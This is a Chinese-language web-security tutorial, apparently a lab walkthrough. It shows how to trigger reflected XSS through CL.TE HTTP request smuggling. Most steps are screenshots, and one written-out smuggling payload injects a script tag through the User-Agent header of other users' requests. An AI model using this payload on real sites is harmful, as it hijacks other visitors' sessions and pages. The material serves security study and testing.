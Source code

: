 # 请求走私触发 xss

作为 HTTP 请求走私的攻击者，你可以控制其他用户数据包的 header 和 post 参数，如果此系统中存在 xss 漏洞，可以尝试以 http 请求走私的方式触发。

注：此利用依赖于系统中本身存在 xss，http 请求走私只是触发 xss 的一种方式。

1. 延时测试 CL.TE

![image-20250411104247074](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411104247074.png)

2. 拆分测试 CL.TE

![image-20250411104333275](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411104333275.png)

3. 寻找可控的 xss 输入口

![image-20250411105214892](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411105214892.png)

可以看到，这里的 userAgent 参数存在反射 xss，而我们 HTTP 请求走私正好能控制其他用户数据包的请求头和 post 参数。

4. 构造 payload，发送 attack 包。

```
Content-Length: 169
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

![image-20250411105424268](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411105424268.png)

5. 发送 normal 包

![image-20250411105400011](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250411105400011.png)

6. 再此发送 attack 包，等待这个靶场的其他用户发送 normal 包。